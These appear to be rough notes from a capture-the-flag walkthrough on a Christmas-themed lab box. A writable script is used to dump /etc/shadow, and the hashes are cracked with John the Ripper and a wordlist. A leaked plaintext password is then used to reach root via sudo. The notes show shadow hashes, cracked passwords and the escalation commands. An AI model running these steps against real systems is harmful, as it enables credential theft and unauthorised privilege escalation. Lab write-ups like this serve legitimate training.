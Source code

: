 change loot.sh
cat /etc/shadow

thegrinch:$6$iiajscL7$7YgS0mCSs8ROHgS/4VP1itLix.T7onR26n4gdHFNAYnF/jVY7N4No11Yuy2RtLwXxJE3Vzl6zBdXXu5GUBJCj0:18942:0:99999:7::: 
mcskidy:$6$g81UcX1e$az/mXtNiOt9tMDb6lixDN3c1yH2GhcJVlAIWYB/WYNgujmxHafZdhD91ppxB.x7RIkH9DbpS6XQxe0piA2p2L1:18942:0:99999:7::: 
pepper:$6$GZUP42Y2$QYDESrTO9T517RDzR6cGXOANA/H4For7odahhn/DUdeWfEXtG9ZLHnZl4PLbfm8WF0GRB4ti9ij6w0NwBPunI/:18942:0:99999:7::: 




Eg
vi passwd.txt
pepper:x:1003:1003:,,,:/home/pepper:/bin/bash


vi shadow.txt
# /etc/shadow line
pepper:$6$GZUP42Y2$QYDESrTO9T517RDzR6cGXOANA/H4For7odahhn/DUdeWfEXtG9ZLHnZl4PLbfm8WF0GRB4ti9ij6w0NwBPunI/:18942:0:99999:7::: 


In order to unshadow to the two files we need to execute

unshadow passwd.txt shadow.txt > unshadowed.txt


pepper:$6$GZUP42Y2$QYDESrTO9T517RDzR6cGXOANA/H4For7odahhn/DUdeWfEXtG9ZLHnZl4PLbfm8WF0GRB4ti9ij6w0NwBPunI/:1003:1003:,,,:/home/pepper:/bin/bash


Next and final step is to actually start the cracking with John. It is up to you which cracking method you will chose, though a bruteforcing using a wordlist is usually enough for CTFs. An example attack using a wordlist would be launched like below

john --wordlist=/usr/share/wordlists/rockyou.txt unshadowed.txt


Using default input encoding: UTF-8
Loaded 1 password hash (sha512crypt, crypt(3) $6$ [SHA512 128/128 SSE2 2x])
Cost 1 (iteration count) is 5000 for all loaded hashes
Will run 2 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
pepper123        (pepper)     
1g 0:00:01:37 DONE (2021-12-14 23:43) 0.01025g/s 137.8p/s 137.8c/s 137.8C/s 120806..waiting
Use the "--show" option to display all of the cracked passwords reliably


change loot.sh
cat /home/thegrinch/Desktop/flag.txt /var/www/ls.html

DI3H4rdIsTheBestX-masMovie! 



https://erev0s.com/blog/cracking-etcshadow-john/


Privilege to root
change file loot.sh
cat /home/thegrinch/scripts/check.sh > /var/www/ls.html

#Secret password reminder script V 1.0 response=$(curl -s http://localhost/ls.html) 
content=$(echo $response > /tmp/check.txt) 
if grep "remindme.txt" /tmp/check.txt 
then echo "ELFSareFAST" > /var/www/html/pass.html 
else echo "Error" > /dev/null # rm /tmp/check.txt fi 

----> password of thegrinch: ELFSareFAST

su thegrinch
Password: 
thegrinch@ip-10-10-115-195:/tmp$ whoami
thegrinch
thegrinch@ip-10-10-115-195:/tmp$ sudo -l
[sudo] password for thegrinch: 
Matching Defaults entries for thegrinch on ip-10-10-115-195:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User thegrinch may run the following commands on ip-10-10-115-195:
    (ALL : ALL) ALL
    (ALL : ALL) ALL
thegrinch@ip-10-10-115-195:/tmp$ sudo su
root@ip-10-10-115-195:/tmp# whoami
root
root@ip-10-10-115-195:/tmp# 


